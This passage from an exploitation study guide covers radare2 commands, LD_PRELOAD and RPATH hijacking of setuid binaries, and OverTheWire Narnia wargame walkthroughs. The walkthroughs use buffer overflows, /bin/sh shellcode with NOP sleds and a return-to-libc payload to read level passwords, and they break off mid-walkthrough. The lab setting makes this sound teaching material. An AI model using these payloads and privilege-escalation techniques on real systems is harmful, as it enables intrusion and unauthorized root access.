* info registers regname ... : Print the relativized value of each specified register regname. As discussed in detail below, register values are normally relative to the selected stack frame. regname may be any register name valid on the machine you are using, with or without the initial '$'.

Radare2 Basics
==============

::

 r2 -Ad ./crackme0x01 : Opens r2 in debug mode with the Analyze all flag active
 afll : Lists all functions and their location in memory
 s sym.main : Seeks to function sym.main. Address in prompt will change
 pdf @ sym.main (which means something like “show me the main function without seek to it”) could be used.

 pdf : "Print Disassembling Function"
 iz : Shows the strings present in the data section. One can use izz to see the strings for the entire binary
 db 0x12345678 : Sets a breakpoint at address 0x12345678. It's possible to set more than one breakpoint
 dc : Runs the program until it hits a breakpoint
 dr : Shows the content of all registers. Use dr <register> for a specific register
 afvd : Shows the content of all local/args variables
 pf Prints formatted data. Use pf?? to see available formats and pf??? for examples
 ? 0x10 Converts the number 0x10 to the most common bases



Appendix-II LD_PRELOAD
======================

Hijacking Functions
-------------------

Let's say there's a function getrand which generates a random path for the files to be stored

::

 int getrand(char **path)
 {
  char *tmp;
  int pid;
  int fd;
 
  srandom(time(NULL));
 
  tmp = getenv("TEMP");
  pid = getpid();
  
  asprintf(path, "%s/%d.%c%c%c%c%c%c", tmp, pid, 
    'A' + (random() % 26), '0' + (random() % 10), 
    'a' + (random() % 26), 'A' + (random() % 26),
    '0' + (random() % 10), 'a' + (random() % 26));
 
  fd = open(*path, O_CREAT|O_RDWR, 0600);
  unlink(*path);
  return fd;
 }

If we see the above function, getpid figures out the PID of the program, unlink deletes the file and random provides a random number. 

We also need to check if the binary is dynamically linked or not?

::

 file /home/flagXX/flagXX
 /home/flagXX/flagXX: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.15, not stripped

If so, then we can create a c file to override the functions we want – random(), unlink() and getpid():

::

 hacking_randomfile.c

 // Take control of random
 int random(){
    return 0;
 }

 // Stop the file being deleted
 int unlink(const char *pathname) {
    return 0;
 }

 // Take control of the reported PID
 int getpid() {
    return 1;
 }


Now, we need to compile this with

::

 gcc hacking_randomfile.c -o hacking_randomfile -shared -fPIC

Using gcc we've specified the normal input file (hacking_randomfile.c) and output file (-o hacking_randomfile), but we've also specified two additional options: 

::

 -shared to make a library and 
 -fPIC to specify Position Independent Code, which is necessary for making a shared library.

Now that we've built hacking_randomfile as a shared library, here's the basic usage:

::

 $ LD_PRELOAD="$PWD/hacking_randomtime" ./main_targetfile


SANS has written a blog about `Go To The Head Of The Class: LD_PRELOAD For The Win <https://pen-testing.sans.org/blog/2017/12/06/go-to-the-head-of-the-class-ld-preload-for-the-win>`_ 

Important things to note
^^^^^^^^^^^^^^^^^^^^^^^^

* Function definition should be correct
* Funtion input and return type should also be correct.

Controlling uninitialized memory with LD_PRELOAD
------------------------------------------------

Dan Rosenberg has documented this technique at `Controlling uninitialized memory with LD_PRELOAD <http://vulnfactory.org/blog/2010/04/08/controlling-uninitialized-memory-with-ld_preload/>`_ The below stuff is directly taken from the blog post.

A local Linux user can exercise a degree of control over uninitialized memory on the stack when executing a program. This happens because of the way the Linux linker/loader, ld.so, handles the LD_PRELOAD environment variable. This variable allows users to specify libraries to be preloaded, effectively allowing users to override functions used in a particular binary. However, regardless of whether or not libraries specified via LD_PRELOAD are actually loaded at runtime, ld.so copies the name of each library onto the stack prior to executing the program, and doesn’t clean up after itself. By specifying a very long LD_PRELOAD variable and executing a binary, a portion of the stack will be overwritten with part of the LD_PRELOAD variable during linking, and it will stay that way once execution of the program begins, even on setuid binaries, where the library itself is not loaded.

This means we can initialise the memory to something under out control:

::

 $ export LD_PRELOAD=`python -c 'print "/bin/getflag\x0a"*1000'`

i.e. fill the stack with one thousand /bin/getflags.

Then when we run flagXX with length of 1, it will almost certainly have this in the buffer already:

::

 $ echo -ne "Content-Length: 1\n " | /home/flagXX/flagXX
 sh: !getflag: command not found
 getflag is executing on a non-flag account, this doesn't count
 getflag is executing on a non-flag account, this doesn't count
 getflag is executing on a non-flag account, this doesn't count
 ... lots of repeats ...
 sh: line 74: /bin/getfl=qm: No such file or directory

Of course, the LD_PRELOAD variable is ignored with setuid binaries, since otherwise an attacker could trivially override arbitrary functions in setuid binaries and easily take control of a system.

LIBC - Rpath
------------

If there's exist a suid binary with a RPATH defined which we control, we can get code execution. Let's first read what's rpath?

RPATH
^^^^^

`rpath <https://en.wikipedia.org/wiki/Rpath>`_ designates the run-time search path hard-coded in an executable file or library. Dynamic linking loaders use the rpath to find required libraries. Specifically it encodes a path to shared libraries into the header of an executable (or another shared library). This RPATH header value (so named in the Executable and Linkable Format header standards) may either override or supplement the system default dynamic linking search paths.

Libraries loaded from the run-time path defined by RPATH wont disable the setuid execution as LDPRELOAD would do. So we can inject our own libc.so.6 (Using version GLIBC2.0 as required by the binary) in the RPATH directory and hook any of the used functions to execute our setuid shell.

We can use readelf to check the dynamic section of a binary

::

 readelf -d flagXX

 Dynamic section at offset 0xf20 contains 21 entries:
  Tag        Type                         Name/Value
 0x00000001 (NEEDED)                     Shared library: [libc.so.6]
 0x0000000f (RPATH)                      Library rpath: [/var/tmp/flagXX]
 0x0000000c (INIT)                       0x80482c0

In the above example, we can see that RPATH is defined as /var/tmp/flagXX, so the binary tries to load the libc.so.6 from that location.


Let's see what are the functions the binary utilizes from libc

::

 objdump -R flag15

 flag15:     file format elf32-i386

 DYNAMIC RELOCATION RECORDS
 OFFSET   TYPE              VALUE
 08049ff0 R_386_GLOB_DAT    __gmon_start__
 0804a000 R_386_JUMP_SLOT   puts
 0804a004 R_386_JUMP_SLOT   __gmon_start__
 0804a008 R_386_JUMP_SLOT   __libc_start_main

libc_start_main
^^^^^^^^^^^^^^^

From `linuxbase <http://refspecs.linuxbase.org/LSB_3.1.1/LSB-Core-generic/LSB-Core-generic/baselib---libc-start-main-.html>`_ The _libcstart_main() function shall perform any necessary initialization of the execution environment, call the main function with appropriate arguments, and handle the return from main(). If the main() function returns, the return value shall be passed to the exit() function.

::

 int __libc_start_main(int (*main) (int, char * *, char * *), int argc, char * * ubp_av, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void (* stack_end));

gmon_start
^^^^^^^^^^

The function call_gmon_start initializes the gmon profiling system. This system is enabled when binaries are compiled with the -pg flag, and creates output for use with gprof(1). In the case of the scenario binary call_gmon_start is situated directly proceeding that _start function. The call_gmon_start function finds the last entry in the Global Offset Table (also known as __gmon_start__) and, if not NULL, will pass control to the specified address. The __gmon_start__ element points to the gmon initialization function, which starts the recording of profiling information and registers a cleanup function with atexit(). In our case however gmon is not in use, and as such __gmon_start__ is NULL.


Version Reference
^^^^^^^^^^^^^^^^^

GLib provides version information, primarily useful in configure checks for builds that have a configure script.

Check glib version in binary

::

 objdump -p flag15 

 flag15:     file format elf32-i386

 Version References:
  required from libc.so.6:
    0x0d696910 0x00 02 GLIBC_2.0

or 

::

 objdump -T flag15 

 flag15:     file format elf32-i386

 DYNAMIC SYMBOL TABLE:
 00000000      DF *UND*	00000000  GLIBC_2.0   puts
 00000000  w   D  *UND*	00000000              __gmon_start__
 00000000      DF *UND*	00000000  GLIBC_2.0   __libc_start_main
 080484cc g    DO .rodata	00000004  Base        _IO_stdin_used

Check glib version in your linux machine

::

 ldd --version
 ldd (Debian GLIBC 2.26-2) 2.26

If you get error like "no version information available", create a file version.ld with the version required.

::

 cat version.ld
 GLIBC_2.0 {
 };

and link it while compiling

::

 gcc -shared -static-libgcc -fPIC -Wl,--version-script=version.ld,-Bstatic shell.c -o libc.so.6

LD_DEBUG environment variable
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

If the LD_DEBUG variable is set then the Linux dynamic linker will dump debug information which can be used to resolve most loading problems very quickly. To see the available options just run any program with the variable set to help, i.e.:

::

 LD_DEBUG=help cat
 Valid options for the LD_DEBUG environment variable are:

  libs        display library search paths
  reloc       display relocation processing
  files       display progress for input file
  symbols     display symbol table processing
  bindings    display information about symbol binding
  versions    display version dependencies
  all         all previous options combined
  statistics  display relocation statistics
  unused      determined unused DSOs
  help        display this help message and exit

If you want to debug a binary

::

 LD_DEBUG all ./flagXX

 D_DEBUG=all ./flag15
      4796:
      4796:	file=libc.so.6 [0];  needed by ./flag15 [0]
      4796:	find library=libc.so.6 [0]; searching
      4796:	 search path=/var/tmp/flag15/tls/i686/sse2/cmov:/var/tmp/flag15/tls/i686/sse2:/var/tmp/flag15/tls/i686/cmov:/var/tmp/flag15/tls/i686:/var/tmp/flag15/tls/sse2/cmov:/var/tmp/flag15/tls/sse2:/var/tmp/flag15/tls/cmov:/var/tmp/flag15/tls:/var/tmp/flag15/i686/sse2/cmov:/var/tmp/flag15/i686/sse2:/var/tmp/flag15/i686/cmov:/var/tmp/flag15/i686:/var/tmp/flag15/sse2/cmov:/var/tmp/flag15/sse2:/var/tmp/flag15/cmov:/var/tmp/flag15		(RPATH from file ./flag15)
      4796:	  trying file=/var/tmp/flag15/tls/i686/sse2/cmov/libc.so.6

ulimit
------

ulimit
User limits - limit the use of system-wide resources.

::

 Syntax
      ulimit [-acdfHlmnpsStuv] [limit]

 Options

   -S   Change and report the soft limit associated with a resource.
   -H   Change and report the hard limit associated with a resource.

   -a   All current limits are reported.
   -c   The maximum size of core files created.
   -d   The maximum size of a process's data segment.
   -f   The maximum size of files created by the shell(default option)
   -l   The maximum size that can be locked into memory.
   -m   The maximum resident set size.
   -n   The maximum number of open file descriptors.
   -p   The pipe buffer size.
   -s   The maximum stack size.
   -t   The maximum amount of cpu time in seconds.
   -u   The maximum number of processes available to a single user.
   -v   The maximum amount of virtual memory available to the process.

ulimit provides control over the resources available to the shell and to processes started by it, on systems that allow such control.

The soft limit is the value that the kernel enforces for the corresponding resource. The hard limit acts as a ceiling for the soft limit.

Buffer Overflow Examples
========================

* Let's see a simple example of binary exploitation Narnia0 where we have to write a written value.

 .. code:: c

   #include <stdio.h>
   #include <stdlib.h>

   int main(){
       long val=0x41414141;
       char buf[20];

       printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
       printf("Here is your chance: ");
       scanf("%24s",&buf);

       printf("buf: %s\n",buf);
       printf("val: 0x%08x\n",val);

       if(val==0xdeadbeef)
           system("/bin/sh");
       else {
           printf("WAY OFF!!!!\n");
           exit(1);
       }

       return 0;
   }

 In this example, value of variable val can be overwritten by overflowing buf. Another small observation is scanf function scans 24 characters. If you directly write 20 "A" and the address it won't work as the val doesn't matches. So, we have to use python print command. If we use 

 .. code:: python

   python -c 'print "A"*20 + "\xef\xbe\xad\xde"' | ./narnia0 

 you will see that the value would match but the shell is exited. To keep the shell active, we need to use cat as shown below:

 ::

   (python -c 'print "A"*20 + "\xef\xbe\xad\xde"';cat) | ./narnia0 


* In another example below Narnia1

 ::

   #include <stdio.h>

   int main(){
       int (*ret)();

       if(getenv("EGG")==NULL){    
           printf("Give me something to execute at the env-variable EGG\n");
           exit(1);
       }

       printf("Trying to execute EGG!\n");
       ret = getenv("EGG");
       ret();

       return 0;
   }

 We need to set a environment variable EGG with an shellcode. Previously, I tried with

 ::

   export EGG="\bin\sh"
   and 
   export EGG="\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"

 Shellcode were taken from the Shellstorm website. However, both failed with Segmentation fault. superkojiman, barrebas helped me with and told that if I write

 ::

   export EGG=`python -c 'print "\xCC"'`

 It should sigtrap. "\xCC" acts as a software breakpoint, basically an INT3, It tells you whether your shellcode is stored properly & executed, if the program receives SIGTRAP, you know you're good to go, and it's a good way to make sure you've properly redirected execution to your shellcode. You can further put "\xCC" anywhere in the shellcode, if it crashes before "\xCC", you know for sure that your shellcode has bad characters. They suggested to export the EGG variable as

 ::

   export EGG=`python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"'`

 and it worked like a charm.


* In another example Narnia2

 ::

   #include <stdio.h>
   #include <string.h>
   #include <stdlib.h>

   int main(int argc, char * argv[]){
       char buf[128];

       if(argc == 1){
           printf("Usage: %s argument\n", argv[0]);
           exit(1);
       }
       strcpy(buf,argv[1]);
       printf("%s", buf);

       return 0;
   }

 It's to easy that buffer overflow vulnerability exists because of strcpy. Let's see what is the offset for this.

 ::

   ulimit -c unlimited
   ./narnia2 `/usr/share/metasploit-framework/tools/pattern_create.rb 200`
   Segmentation fault (core dumped)

   gdb -q -c core ./narnia2
   #0  0x37654136 in ?? ()

   /usr/share/metasploit-framework/tools/pattern_offset.rb 0x37654136
   [*] Exact match at offset 140
   narnia2@melinda:~$ gdb -q /narnia/narnia2
   (gdb) disassemble main 
   Dump of assembler code for function main:
   **Snip**
      0x080484a0 <+67>:    mov    %eax,(%esp)
      0x080484a3 <+70>:    call   0x8048320 <strcpy@plt>
   **Snip**
   End of assembler dump.
   (gdb) br *main+70
   Breakpoint 1 at 0x80484a3
   (gdb) run `python -c 'print "A"*140 + "BBBB"'`
   Starting program: /games/narnia/narnia2 `python -c 'print "A"*140 + "BBBB"'`

   Breakpoint 1, 0x080484a3 in main ()
   (gdb) n
   0x42424242 in ?? ()

 Let's see the stack after the strcpy, which would tell us the probable address we want to redirect execution.

 ::

   (gdb) x/80xw $esp+400
   0xffffd7e0: 0x0000000f  0xffffd80b  0x00000000  0x00000000
   0xffffd7f0: 0x00000000  0x00000000  0x1d000000  0xa9c79d1b
   0xffffd800: 0xe1a67367  0xc19fc850  0x6996cde4  0x00363836
   0xffffd810: 0x2f000000  0x656d6167  0x616e2f73  0x61696e72
   0xffffd820: 0x72616e2f  0x3261696e  0x41414100  0x41414141
   0xffffd830: 0x41414141  0x41414141  0x41414141  0x41414141
   0xffffd840: 0x41414141  0x41414141  0x41414141  0x41414141
   0xffffd850: 0x41414141  0x41414141  0x41414141  0x41414141
   0xffffd860: 0x41414141  0x41414141  0x41414141  0x41414141
   0xffffd870: 0x41414141  0x41414141  0x41414141  0x41414141
   0xffffd880: 0x41414141  0x41414141  0x41414141  0x41414141
   0xffffd890: 0x41414141  0x41414141  0x41414141  0x41414141
   0xffffd8a0: 0x41414141  0x41414141  0x41414141  0x41414141
   0xffffd8b0: 0x41414141  0x42424241  0x44580042  0x45535f47
   0xffffd8c0: 0x4f495353  0x44495f4e  0x3939383d  0x53003733

 Let pick a shellcode from shellstorm for a Linux x86 execuve /bin/sh and calculate the number of NOPs

 ::

   narnia2@melinda:~$ python -c 'print len("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")'
   23
   narnia2@melinda:~$ bc    
   140-23
   117
   narnia2@melinda:~$ /narnia/narnia2 `python -c 'print "\x90"*117 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "\x50\xd8\xff\xff"'`
   $ cat /etc/narnia_pass/narnia3
   **********
   $ 


* In another example Narnia3

 .. code:: c

   #include <stdio.h>
   #include <sys/types.h>
   #include <sys/stat.h>
   #include <fcntl.h>
   #include <unistd.h>
   #include <stdlib.h>
   #include <string.h> 

   int main(int argc, char **argv){
     
           int  ifd,  ofd;
           char ofile[16] = "/dev/null";
           char ifile[32];
           char buf[32];
     
           if(argc != 2){
                   printf("usage, %s file, will send contents of file 2 /dev/null\n",argv[0]);
                   exit(-1);
           }
     
           /* open files */
           strcpy(ifile, argv[1]);
           if((ofd = open(ofile,O_RDWR)) < 0 ){
                   printf("error opening %s\n", ofile);
                   exit(-1);
           }
           if((ifd = open(ifile, O_RDONLY)) < 0 ){
                   printf("error opening %s\n", ifile);
                   exit(-1);
           }
    
           /* copy from file1 to file2 */
           read(ifd, buf, sizeof(buf)-1);
           write(ofd,buf, sizeof(buf)-1);
           printf("copied contents of %s to a safer place... (%s)\n",ifile,ofile);
     
           /* close 'em */
           close(ifd);
           close(ofd);
    
           exit(1);
   }

 Superkojiman notes explain this best, copied here with permission, thanks superkojiman :)

 ::

   narnia3@melissa:/narnia$ ./narnia3 /etc/motd
   copied contents of /etc/motd to a safer place... (/dev/null)

 We can use this program to read the contents of /etc/narnia\_pass/narnia4, but the output is written to /dev/null. We control the input file and the output file is set as /dev/null. However, because of the way the stack is laid out, we can write past the ifile buffer and overwrite the value of ofile. This lets us replace /dev/null with another file of our choosing. Here's what the stack looks like:

 ::

   +---------+
   |  ret    |
   |  sfp    |
   |  ofd    |
   |  ifd    |
   |  ofile  |
   |  ifile  |
   |  buf    |
   +---------+ <- esp

 ifile and ofile are 32-byte arrays. We can compile the program with -ggdb and examine it in gdb 

 ::

   # gcc -ggdb -m32 -fno-stack-protector -Wl,-z,norelro narnia3.c -o narnia3
   # gdb -q narnia3

 If we disas main, we can see that strcpy is called at \*main+100:

 ::

      0x08048551 <+93>:    lea    0x38(%esp),%eax
      0x08048555 <+97>:    mov    %eax,(%esp)
      0x08048558 <+100>:   call   0x8048400 <strcpy@plt>
      0x0804855d <+105>:   movl   $0x2,0x4(%esp)
      0x08048565 <+113>:   lea    0x58(%esp),%eax
      0x08048569 <+117>:   mov    %eax,(%esp)

 We set a breakpoint there and run the program with the following arguments:

 ::

   (gdb) r `python -c 'print "A"*32 + "/tmp/hack"'`
   Starting program: /root/wargames/narnia/3/narnia3 `python -c 'print "A"*32 + "/tmp/hack"'`

   Breakpoint 1, 0x08048558 in main (argc=2, argv=0xbffff954) at narnia3.c:37
   37          strcpy(ifile, argv[1]);


 At the first breakpoint, we examine the local variables

 ::

   (gdb) i locals
   ifd = 134514299
   ofd = -1208180748
   ofile = "/dev/null\000\000\000\000\000\000"
   ifile = "x\370\377\277\234\203\004\b\200\020\377\267\214\230\004\b\250\370\377\277\211\206\004\b$\243\374\267\364\237", <incomplete sequence \374\267>
   buf = "\370\370\377\267\364\237\374\267\371\234\367\267\245B\352\267h\370\377\277չ\350\267\364\237\374\267\214\230\004\b"

 ofile is set to /dev/null as expected. We'll step to the next instruction and check again.
 ::

   (gdb) s
   38          if((ofd = open(ofile,O_RDWR)) < 0 ){
   (gdb) i locals
   ifd = 134514299
   ofd = -1208180748
   ofile = "/tmp/hack\000\000\000\000\000\000"
   ifile = 'A' <repeats 32 times>
   buf = "\370\370\377\267\364\237\374\267\371\234\367\267\245B\352\267h\370\377\277չ\350\267\364\237\374\267\214\230\004\b"

  As expected, ofile has been overwritten to /tmp/hack. However ifile is now AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/hack so in order to read /etc/narnia_pass/narnia4, we need to create a directory AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp and symlink /etc/narnia_pass/narnia4 to AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/hack

 ::

   narnia3@melissa:/tmp/skojiman3$ mkdir -p AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp
   narnia3@melissa:/tmp/skojiman3$ ln -s /etc/narnia_pass/narnia4 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/hack

 Next we need to create the output file /tmp/hack that ofile points to
 
 ::
  
   narnia3@melissa:/tmp/skojiman3$ touch /tmp/hack
   narnia3@melissa:/tmp/skojiman3$ chmod 666 /tmp/hack
   narnia3@melissa:/tmp/skojiman3$ ls -l /tmp/hack
   -rw-rw-rw- 1 narnia3 narnia3 0 2012-11-24 22:58 /tmp/hack

 Finally, execute /narnia/narnia3 as follows:

 ::

   narnia3@melissa:/tmp/skojiman3$ /narnia/narnia3 `python -c 'print "A"*32 + "/tmp/hack"'`
   copied contents of AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/hack to a safer place... (/tmp/hack)
   narnia3@melissa:/tmp/skojiman3$ cat /tmp/hack
   thaenohtai
   ��*������e���@�narnia3@melissa:/tmp/skojiman3$


* Let's see another example Narnia6.

 .. code:: c

    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>

    extern char **environ;

    // tired of fixing values...
    // - morla
    unsigned long get_sp(void) {
           __asm__("movl %esp,%eax\n\t"
                   "and $0xff000000, %eax"
                   );
    }

    int main(int argc, char *argv[]){
        char b1[8], b2[8];
        int  (*fp)(char *)=(int(*)(char *))&puts, i;

        if(argc!=3){ printf("%s b1 b2\n", argv[0]); exit(-1); }

        /* clear environ */
        for(i=0; environ[i] != NULL; i++)
            memset(environ[i], '\0', strlen(environ[i]));
        /* clear argz    */
        for(i=3; argv[i] != NULL; i++)
            memset(argv[i], '\0', strlen(argv[i]));

        strcpy(b1,argv[1]);
        strcpy(b2,argv[2]);
        //if(((unsigned long)fp & 0xff000000) == 0xff000000)
        if(((unsigned long)fp & 0xff000000) == get_sp())
            exit(-1);
        fp(b1);

        exit(1);
    }

 Stack is not executable for this binary. This binary is an example of “return-to-libc” attack is a computer security attack usually starting with a buffer overflow in which a subroutine return address on a call stack is replaced by an address of a subroutine that is already present in the process’ executable memory, rendering the NX bit feature useless (if present) and ridding the attacker of the need to inject their own code.

 ::

   gdb -q narnia6
   Reading symbols from /home/bitvijays/narnia6...(no debugging symbols found)...done.
   gdb-peda$ checksec 
   CANARY    : disabled
   FORTIFY   : disabled
   NX        : ENABLED
   PIE       : disabled
   RELRO     : disabled
   gdb-peda$ 

 Let's compile the source on the local and check what happens:

 ::

   gcc -m32 -ggdb -fno-stack-protector -Wall narnia6.c -o narnia61

 If you see carefully, we passed A\ *8 + BBBB + " " + "C"*\ 8 + DDDD, which resulted in

 ::

   gdb -q ./narnia61
   gdb-peda$ pdisass main
   Dump of assembler code for function main:
      0x080486d2 <+330>:   call   0x8048450 <exit@plt>
      0x080486d7 <+335>:   lea    eax,[esp+0x20]
      0x080486db <+339>:   mov    DWORD PTR [esp],eax
      0x080486de <+342>:   mov    eax,DWORD PTR [esp+0x28]
      0x080486e2 <+346>:   call   eax
      0x080486e4 <+348>:   mov    DWORD PTR [esp],0x1
      0x080486eb <+355>:   call   0x8048450 <exit@plt>
   End of assembler dump.
   gdb-peda$ br *main+346
   Breakpoint 1 at 0x80486e2: file narnia6.c, line 48.
   gdb-peda$ run `python -c 'print "A"*8 + "BBBB" + " " + "C"*8 + "DDDD"'`
   [-------------------------------------code-------------------------------------]
      0x80486d7 <main+335>:    lea    eax,[esp+0x20]
      0x80486db <main+339>:    mov    DWORD PTR [esp],eax
      0x80486de <main+342>:    mov    eax,DWORD PTR [esp+0x28]
   => 0x80486e2 <main+346>:    call   eax
      0x80486e4 <main+348>:    mov    DWORD PTR [esp],0x1
      0x80486eb <main+355>:    call   0x8048450 <exit@plt>
      0x80486f0 <__libc_csu_fini>: push   ebp
      0x80486f1 <__libc_csu_fini+1>:   mov    ebp,esp
   Guessed arguments:
   arg[0]: 0xffffd380 ("DDDD")
   Breakpoint 1, 0x080486e2 in main (argc=0x3, argv=0xffffd444) at narnia6.c:48
   48      fp(b1);
   gdb-peda$ p b1
   $1 = "DDDD\000AAA"
   gdb-peda$ p b2
   $2 = "CCCCCCCC"
   gdb-peda$ p puts
   $3 = {<text variable, no debug info>} 0xf7eb3360 <puts>
   gdb-peda$ p system
   $4 = {<text variable, no debug info>} 0xf7e8bc30 <system>
   gdb-peda$ p &b1
   $5 = (char (*)[8]) 0xffffd380
   gdb-peda$ x/50xw 0xffffd350
   0xffffd360: 0xffffd380  0xffffd5df  0x0000003b  0x0804874b
   0xffffd370: 0x00000003  0xffffd444  0x43434343  0x43434343
   0xffffd380: 0x44444444  0x41414100  0x42424242  0x00000000
   0xffffd390: 0x08048700  0xf7fb0ff4  0xffffd418  0xf7e66e46
   0xffffd3a0: 0x00000003  0xffffd444  0xffffd454  0xf7fde860
   gdb-peda$ p fp
   $6 = (int (*)(char *)) 0x42424242
   gdb-peda$ p &fp
   $7 = (int (**)(char *)) 0xffffd388
   gdb-peda$ p $fp
   $8 = (void *) 0xffffd398

 The address of fp "p &fp" is 0xffffd3888 which has a value of ("p fp") 0x42424242. As previously the stack is NoteXecutable, but stdlib.h is included in the C Program. Stdlib.h includes system call which has an address of ("p system") 0xf7e8bc30. Further DDDD overwrites AAAA with the Null byte.

 ::

   narnia6@melinda:/narnia$ ./narnia6 `python -c 'print "A"*8 + "\x40\x1c\xe6\xf7" + " " + "C"*8 + "/bin/sh"'`
   $ cat /etc/narnia_pass/narnia7


* Let's see another example where we have to use a environment variable to invoke a shell Narnia8.

 .. code:: c

    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>
    // gcc's variable reordering fucked things up
    // to keep the level in its old style i am 
    // making "i" global unti i find a fix 
    // -morla 
    int i; 

    void func(char *b){
        char *blah=b;
        char bok[20];
        //int i=0;
        
        memset(bok, '\0', sizeof(bok));
        for(i=0; blah[i] != '\0'; i++)
            bok[i]=blah[i];

        printf("%s\n",bok);
    }

    int main(int argc, char **argv){
            
        if(argc > 1)       
            func(argv[1]);
        else    
        printf("%s argument\n", argv[0]);

        return 0;
    }

 Let's see what is happening here: for loop in function func copies data from blah to bok character array until a null character is found. Let's see how the stack would look like 
 ::

    <bok character array><blah pointer><fp><ret><pointer b>

 Let's confirm this by using gdb? We put an breakpoint on printf function in the func function. 

 ::

    0xffffd670: 0x08048580  0xffffd688  0x00000014  0xf7e54f53
    0xffffd680: 0x00000000  0x00ca0000  0x41414141  0x41414141
    0xffffd690: 0x41414141  0x41414141  0x00414141  0xffffd8b1
    0xffffd6a0: 0x00000002  0xffffd764  0xffffd6c8  0x080484cd
    0xffffd6b0: 0xffffd8b1  0xf7ffd000  0x080484fb  0xf7fca000

 Address 0xffffd689 marks the start of the character buffer bok. I entered 19 A so it's 0x41 19 times followed by null 0x00. Followed by that is 0xffffd8b1 (Value of Blah pointer). Followed by fp 12 bytes <0x00000002 0xffffd764 0xffffd6c8>. Followed by 0x080484cd which is the return address

 ::

    (gdb) x/s 0x080484cd
    0x80484cd <main+31>:    "\353\025\213E\f\213"

 followed by pointer b (0xffffd8b1). Let's see what's at location 0xffffd8b1

 ::

    (gdb) x/20wx 0xffffd8b1
    0xffffd8b1: 0x41414141  0x41414141  0x41414141  0x41414141
    0xffffd8c1: 0x00414141  0x5f474458  0x53534553  0x5f4e4f49

 Let's see what happens when we try to enter more than the 19 character (buffer size of bok - 1 byte (for null character))

 ::

    narnia8@melinda:/narnia$ ./narnia8 `python -c 'print "A"*20'`
    AAAAAAAAAAAAAAAAAAAA����
    narnia8@melinda:/narnia$ ./narnia8 `python -c 'print "A"*20'` | hexdump 
    0000000 4141 4141 4141 4141 4141 4141 4141 4141
    0000010 4141 4141 d8bf ffff 0a02               
    000001a

 As expected, we get A followed by some garbage. which is the address where blah is pointing. We know that we can overwrite the RET address by

 ::

    # `python -c 'print "A"*20 + "\x90\x90\x90\x90" + "A"*12 + "BBBB"'`

 Let's see what happens when we do this. After copying 20 A it copies \x90 and makes blah pointer from 0xffffd8bf to 0xffffd890. Because of the for loop

 ::

    for(i=0; blah[i] != '\0'; i++)

 It now copies the character from 0xffffd890 reference i.e 0xffffd890 + i value. Suppose it copied the character 0x41. The address becomes 0xffff4190 and now for loop searches from that address until a null character is found.

 ::

    (gdb) x/20xw $esp
    0xffffd660: 0xffffd678  0x00000000  0x00000014  0xf7e54f53
    0xffffd670: 0x00000000  0x00ca0000  0x41414141  0x41414141
    0xffffd680: 0x41414141  0x41414141  0x41414141  0xffffd890
    0xffffd690: 0x00000002  0xffffd754  0xffffd6b8  0x080484cd
    0xffffd6a0: 0xffffd89c  0xf7ffd000  0x080484fb  0xf7fca000

    (gdb) x/10xw 0xffffd890
    0xffffd890: 0x2f61696e  0x6e72616e  0x00386169  0x41414141
    0xffffd8a0: 0x41414141  0x41414141  0x41414141  0x41414141
    0xffffd8b0: 0x90909090  0x41414141

    (gdb) x/20xw $esp
    0xffffd660: 0x08048580  0xffffd678  0x00000014  0xf7e54f53
    0xffffd670: 0x00000000  0x00ca0000  0x41414141  0x41414141
    0xffffd680: 0x41414141  0x41414141  0x41414141  0xffff4190
    0xffffd690: 0x00000002  0xffffd754  0xffffd6b8  0x080484cd
    0xffffd6a0: 0xffffd89c  0xf7ffd000  0x080484fb  0xf7fca000

    (gdb) x/10xw 0xffff4190
    0xffff4190: 0x00000000  0x00000000  0x00000000  0x00000000
    0xffff41a0: 0x00000000  0x00000000  0x00000000  0x00000000
    0xffff41b0: 0x00000000  0x00000000

 If we can somehow keep/change the blah pointer back to it's original value we may overwrite the RET pointer (after 12 bytes). Let's see how 0xffffd89c looks when is used 
 ::

    `python -c 'print "A"*20 + "\x90\x90\x90\x90" + "A"*12 + "BBBB"'`

 ::

    (gdb) x/30xw 0xffffd89c
    0xffffd89c: 0x41414141  0x41414141  0x41414141  0x41414141
    0xffffd8ac: 0x41414141  0x90909090  0x41414141  0x41414141
    0xffffd8bc: 0x41414141  0x42424242  0x47445800  0x5345535f

 When we used the below with the address, we were able to overwrite the RET by BBBB. Now, we control the EIP :)

 ::

    (gdb) run `python -c 'print "A"*20 + "\x9c\xd8\xff\xff" + "A"*12 + "BBBB"'`


    (gdb) x/20xw $esp
    0xffffd660: 0x08048580  0xffffd678  0x00000014  0xf7e54f53
    0xffffd670: 0x00000000  0x00ca0000  0x41414141  0x41414141
    0xffffd680: 0x41414141  0x41414141  0x41414141  0xffffd89c
    0xffffd690: 0x41414141  0x41414141  0x41414141  0x42424242

 Let's export a shellcode using a environment variable check it's address on the stack and redirect the flow of our code to it. Notice the number of NOPs we have put for easy identification plus reachability.

 ::

    export EGG=`python -c 'print "\x90"*90 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"'`

 Searching our environment variable we get it at address 0xffffd8d4.

 ::

    (gdb) x/100xw $esp+500
